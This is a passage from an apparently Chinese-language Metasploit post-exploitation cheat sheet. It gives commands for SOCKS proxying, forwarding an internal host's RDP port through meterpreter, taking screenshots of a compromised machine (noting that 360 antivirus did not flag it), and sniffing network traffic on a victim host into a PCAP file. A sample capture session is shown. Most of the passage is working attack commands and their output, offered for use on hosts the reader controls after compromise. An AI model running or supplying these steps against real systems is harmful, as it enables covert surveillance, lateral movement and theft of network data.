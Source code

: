       use auxiliary/server/socks4a proxychains设置socks4为上条设置的，即可在本地代理扫描, 目前msf已经支持 socks5 代理 

  17. ##### Msf端口转发portfwd

      ```shell
      portfwd add -L 0.0.0.0 4443 -p 3389 -r 192.168.2.100
      ```

      将192.168.1.2.100内网转发到本地4443 port，流量大不好用 

  18. ##### Msf截屏(没被360拦没提示，或许有意外收获)

      ```
      meterpreter > use espia
      meterpreter > screengrab
      ```

  19. ##### Msf嗅探

      ```shell
      meterpreter > use sniffer
      Loading extension sniffer...Success.
      meterpreter > help
      
      Sniffer Commands
      ================
      
          Command             Description
          -------             -----------
          sniffer_dump        Retrieve captured packet data to PCAP file
          sniffer_interfaces  Enumerate all sniffable network interfaces
          sniffer_release     Free captured packets on a specific interface instead of downloading them
          sniffer_start       Start packet capture on a specific interface
          sniffer_stats       View statistics of an active capture
          sniffer_stop        Stop packet capture on a specific interface
      
      meterpreter > sniffer_interfaces
      
      1 - 'WAN Miniport (Network Monitor)' ( type:3 mtu:1514 usable:true dhcp:false wifi:false )
      2 - 'Intel(R) PRO/1000 MT Network Connection' ( type:4294967295 mtu:0 usable:false dhcp:false wifi:false )
      3 - 'Intel(R) PRO/1000 MT Network Connection' ( type:4294967295 mtu:0 usable:false dhcp:false wifi:false )
      4 - 'Intel(R) PRO/1000 MT Network Connection' ( type:4294967295 mtu:0 usable:false dhcp:false wifi:false )
      5 - 'Intel(R) PRO/1000 MT Network Connection' ( type:0 mtu:1514 usable:true dhcp:true wifi:false )
      
      meterpreter > sniffer_start 5
      [*] Capture started on interface 5 (50000 packet buffer)
      meterpreter > sniffer_dump 5 /tmp/1.pcap
      [*] Flushing packet capture buffer for interface 5...
      [*] Flushed 2540 packets (1450560 bytes)
      [*] Downloaded 036% (524288/1450560)...
      [*] Downloaded 072% (1048576/1450560)...
      [*] Downloaded 100% (1450560/1450560)...
      [*] Download completed, converting to PCAP...
      [*] PCAP file written to /tmp/1.pcap
      meterpreter > sniffer_stop 5
      [*] Capture stopped on interface 5
      [*] There are 29 packets (2263 bytes) remaining
      [*] Download or release them using 'sniffer_dump' or 'sniffer_release'
      ```

